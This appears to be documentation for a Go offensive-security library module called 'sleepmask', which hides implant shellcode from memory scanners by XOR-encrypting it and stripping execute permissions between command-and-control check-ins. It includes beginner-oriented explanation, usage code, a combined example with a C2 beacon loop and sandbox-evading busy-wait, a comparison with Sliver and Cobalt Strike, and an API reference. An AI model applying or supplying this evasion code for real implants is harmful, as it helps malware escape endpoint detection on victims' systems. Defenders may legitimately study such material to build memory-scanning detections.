

# Encrypted Sleep (Sleep Mask)

> **MITRE ATT&CK:** T1027 -- Obfuscated Files or Information | **D3FEND:** D3-SMRA -- System Memory Range Analysis | **Detection:** Low

## For Beginners

When your implant is not actively doing something, it sleeps -- waiting for the next command from the operator. During this idle time, the shellcode sits in memory, fully readable. Memory scanners (like YARA-based tools or EDR memory scans) can sweep through process memory and find the shellcode bytes, even though the code is not currently running.

Sleep masking is like locking your diary and hiding it under the mattress every night before you go to sleep. Before entering the sleep period, the implant encrypts its own memory regions with a random XOR key and downgrades the page permissions from "executable" to "read-write" (non-executable). While sleeping, any memory scanner that reads those pages sees only encrypted gibberish in non-executable memory -- nothing suspicious. When the implant wakes up, it decrypts the regions, restores the original permissions, and continues executing.

This is a runtime protection technique. Unlike AMSI bypass or ETW patching (which are one-time actions), sleep masking runs continuously throughout the implant's lifetime, protecting it during every idle period.

## How It Works



**Step-by-step:**

1. **Generate key** -- Create a cryptographically random 32-byte XOR key using `crypto/rand`.
2. **Encrypt regions** -- For each registered memory region, XOR all bytes in-place with the repeating key.
3. **Downgrade permissions** -- `VirtualProtect` each region to `PAGE_READWRITE`, removing the executable bit. Save original permissions.
4. **Sleep** -- Either `time.Sleep` (standard, hookable) or `timing.BusyWaitTrig` (CPU-burn, defeats sleep-hooking sandboxes).
5. **Decrypt regions** -- Ensure pages are writable, XOR decrypt in-place, restore original page permissions.
6. **Zero key** -- Overwrite the XOR key in memory to prevent recovery.

## Usage

```go
package main

import (
    "time"

    "github.com/oioio-space/maldev/evasion/sleepmask"
)

func main() {
    // Register the memory regions containing your shellcode.
    mask := sleepmask.New(
        sleepmask.Region{Addr: shellcodeAddr, Size: shellcodeSize},
    )

    // Sleep for 30 seconds -- regions encrypted during this time.
    mask.Sleep(30 * time.Second)
    // Regions are now decrypted and executable again.
}
```

## Combined Example

```go
package main

import (
    "time"

    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/inject"
    "golang.org/x/sys/windows"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC} // your real shellcode

    // 1. Allocate and prepare shellcode memory.
    addr, _ := windows.VirtualAlloc(0, uintptr(len(shellcode)),
        windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
    // ... copy shellcode, VirtualProtect to RX ...

    // 2. Create sleep mask with busy-wait method (defeats sandbox sleep-skip).
    mask := sleepmask.New(
        sleepmask.Region{Addr: addr, Size: uintptr(len(shellcode))},
    ).WithMethod(sleepmask.MethodBusyTrig)

    // 3. C2 beacon loop.
    for {
        // ... check in with C2 server ...

        // Sleep between check-ins -- shellcode encrypted during this time.
        mask.Sleep(30 * time.Second)
    }

    _ = inject.MethodCreateRemoteThread // suppress unused import
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- encrypted memory in RW pages does not trigger executable-memory YARA scans. |
| Key management | Random 32-byte key per sleep cycle, zeroed after use. No key reuse. |
| Permission handling | Saves and restores ORIGINAL permissions (not hardcoded PAGE_EXECUTE_READ). Works with any initial protection. |
| Sleep methods | `MethodNtDelay` (standard `time.Sleep`) or `MethodBusyTrig` (CPU trigonometric busy-wait to defeat sandbox time-skip). |
| Limitations | The brief window during encrypt/decrypt is vulnerable to scanning. The XOR key is in memory during sleep (though finding it requires knowing where to look). Does not protect against kernel-mode memory access. |
| Overhead | Minimal -- XOR is fast, even for large regions. The main cost is the sleep duration itself. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| XOR encryption during sleep | Yes | Yes (garble) | Sleep mask (BOF) | No |
| Permission downgrade (RX→RW) | Yes | No | Yes | No |
| Random key per cycle | Yes (32 bytes) | Yes | Yes | N/A |
| Key zeroing | Yes | Unknown | Unknown | N/A |
| Busy-wait sleep method | Yes (`BusyWaitTrig`) | No | No | No |
| Multiple regions | Yes (variadic `Region`) | Single | Single | N/A |
| Original permission restore | Yes (saved per-region) | No | Unknown | N/A |

## API Reference

```go
// Region describes a memory region to encrypt during sleep.
type Region struct {
    Addr uintptr
    Size uintptr
}

// SleepMethod controls how the sleep is performed.
type SleepMethod int
const (
    MethodNtDelay  SleepMethod = iota  // standard time.Sleep
    MethodBusyTrig                      // CPU-burn trig busy wait
)

// New creates a Mask for the given memory regions.
func New(regions ...Region) *Mask

// WithMethod sets the sleep method (default: MethodNtDelay).
func (m *Mask) WithMethod(method SleepMethod) *Mask

// Sleep encrypts regions, sleeps, decrypts, restores permissions.
func (m *Mask) Sleep(d time.Duration)
```
